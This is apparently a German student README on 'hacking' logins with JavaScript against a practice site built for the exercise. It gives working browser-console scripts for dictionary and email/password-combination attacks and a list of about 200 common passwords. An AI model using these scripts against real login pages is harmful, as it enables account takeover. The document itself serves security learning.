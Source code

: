 ### Login Hacken mti JavaScript
---
#### Ablauf
- Mit diesem Video habe ich meine Hacker Kompentenzen Aufgebaut. [Video](https://www.youtube.com/watch?v=PvUArQNe3LA)
  <br>
- Damit wir das Gelernte umsetzen können, versuchen wir auf einer Website, die genau für Passwort und E-Mail Hecken Programmiert wurde, all diese Codes aus: [Website](https://junusergin.github.io/hackme-part2/login.html)
  <br>
- Die benötigten Ressourcen um zu hacken, finde ich auf diesem Repository. [Github](https://github.com/JunusErgin/hackme-part2)

<br>


 ---

#### Mein Vorgehen
  1. Ich schaute das Video und probierte selber aus. Dazu habe ich mir einige Notizen gemacht. Mir wurde beigebracht wie ein Hacker denkt und was es für möglichkeiten gibt ein Passwort zu hacken, wie z.B die schnelle und die langsamere (aufwendigere) Art funktioniert.

  <br>
     - Die schnelle variante wäre sich eine Liste mit höffig benutzten Passwörter zu kopieren und mit einer Funktion schnell ausführen zu können.
  <br>

  **Funktion:**

~~~ javascript
let index = 1;
function tryCombinations(combinations) {
    console.log('Trying Password', combinations[index]);
    password.type = 'text';
    password.value = combinations[index];
    loginButton.click();
    index++;
    if (index < combinations.length) {
        setTimeout(tryCombinations, 500, combinations);
    }
}

~~~

**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**Der Ausführung befehl**

~~~ javascript
tryCombinations(dictionary)
~~~

<br>

  - Die langsame Art wäre jede einezelne Kompination von ein stelligen Zahlen/Buchstaben aufzuschreiben und ausprobieren. Die sogenannte 

**Brute Force**.

![Bruteforce](images/../../images/bruteforce.jpg)

<br>

**Das alles kann ich mit Rechtsklick dann auf Untersuchen und auf das Feld aufdem Konsole steht selber einfügen und ausprobieren!**
1. Jetzt gibt es noch ein Login, die eine E-Mail benötigt. Um an die E-Mail drann zu kommen gehe ich auf [Github](https://github.com/JunusErgin/hackme-part2). Der Vorgang bleibt ähnlich wie beim Passwort hacken, nur das die Funktion anderst ist. Zuerst kommen die Passwörter, danach die E-Mails und zuletzt die Funktion mit dem Ausführendem Befehl. **Eine E-Mail wird mit allen Passwörter getestet.**

**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**E-Mails**

~~~Javascript
let emails = [
    'albert.einstein@hacker-email.com',
    'grace.hopper@hacker-email.com',
    'marie.curie@hacker-email.com',
    'konrad.zuse@hacker-email.com',
    'stephanie-kwolek@hacker-email.com',
    'carl-friedrich.gauss@hacker-email.com',
    'shirley-ann.jackson@hacker-email.com',
    'gertrude-belle.elion@hacker-email.com',
    'steve.wozniak@hacker-email.com',
    'rudolf.bayer@hacker-email.com',
    'ada.lovelace@hacker-email.com'
];
~~~

**Funktion**

~~~Javascript
function emailDictionaryAttack(i, j) { // i = 0; j = 0
    console.log('Testing', emails[i], dictionary[j]);
    password.type = 'text';
    username.value = emails[i];
    password.value = dictionary[j];
    loginButton.click();
    j++;
    if (j >= dictionary.length) {
        i++;
        j = 0;
    }
    if (i < emails.length || j < dictionary.length) {
        setTimeout(emailDictionaryAttack, 20, i, j);
    }
}
~~~

**Der Ausführ Befehl**

~~~Javascript
emailDictionaryAttack(0, 0)
~~~

<br>

**Das alles kann ich mit Rechtsklick dann auf Untersuchen und auf das Feld aufdem Konsole steht selber einfügen und ausprobieren!**